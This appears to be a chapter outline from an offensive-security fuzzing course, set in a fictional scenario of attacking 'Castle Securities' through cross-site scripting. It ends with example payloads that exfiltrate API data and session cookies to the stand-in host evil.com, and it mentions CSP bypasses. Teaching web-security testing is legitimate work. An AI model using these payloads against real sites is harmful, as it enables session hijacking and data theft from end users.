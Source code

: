 **OWASP Top 10 Coverage:**
- **A03: Injection** - Cross-Site Scripting (XSS) comprehensive coverage:
  - Reflected XSS through parameter injection
  - Stored XSS through persistent payload storage
  - DOM-based XSS through client-side script manipulation

**Tools & Techniques:**
- **FFUF** - XSS parameter discovery and reflection point identification
- **XSStrike** - Advanced XSS detection and payload generation
- **Python scripts** - Custom payload crafting and automation
- **Browser developer tools** - Manual XSS testing and verification

**Code Implementation Requirements:**
- **Context-Aware XSS Payload Generator** (40-50 lines): Generates XSS payloads based on injection context (HTML, JavaScript, CSS, etc.)
- **Polyglot XSS Fuzzer** (35-45 lines): Creates payloads that work across multiple injection contexts and browsers
- **DOM XSS Discovery Tool** (45-55 lines): Analyzes client-side JavaScript for DOM-based XSS vulnerabilities
- **XSS Exploitation Framework** (50-60 lines): Weaponizes discovered XSS for data extraction and session hijacking

**Throughlines:**
- **Technical**: Extends context-aware payload generation by adding browser-specific execution logic and CSP evasion to produce client-side attack platforms
- **Narrative**: Moves to client-side attacks targeting end users, showing broader impact beyond server compromise
- **Methodological**: Applies fuzzing to client-side vulnerability discovery and exploitation

**Sections:**
- Mind Reading: Context Analysis and Understanding XSS Injection Points
- Universal Translators: Polyglot Payload Development for Multiple Contexts
- Barrier Breaking: CSP Bypass Techniques and Modern Defense Evasion
- Ghost in the Machine: DOM-Based XSS and Dynamic Vulnerability Discovery
- Command Centers: Weaponizing XSS From Discovery to Attack Platform

**The Breakthrough:**
Through a carefully crafted XSS attack in Castle Securities' internal research portal, you gain access to Dr. Sarah Chen's workstation - Castle Securities' lead ARGOS algorithm architect. Her browser sessions contain:
1. Active development environment with algorithm source code
2. Internal documentation about ARGOS mathematical models
3. Access tokens for secure development servers
4. Email communications about algorithm performance and improvements

**Target Focus: Castle Securities User Content Areas**
- Internal research portal with comment system (stored XSS vulnerabilities)
- Employee search functionality with inadequate output encoding (reflected XSS)
- Help desk system with user-generated content and HTML rendering
- Administrative dashboard with privileged user access and DOM manipulation vulnerabilities

**XSS Attack Scenarios:**
1. **Stored XSS** in research notes: `<script>fetch('/api/algorithms').then(r=>r.text()).then(d=>fetch('https://evil.com',{method:'POST',body:d}))</script>`
2. **Reflected XSS** in search: `https://castle-research.com/search?q=<script>document.location='https://evil.com/'+document.cookie</script>`
3. **DOM XSS** in dashboard: URL fragment manipulation causing client-side script execution
4. **CSP bypass** using JSONP endpoints and existing JavaScript libraries
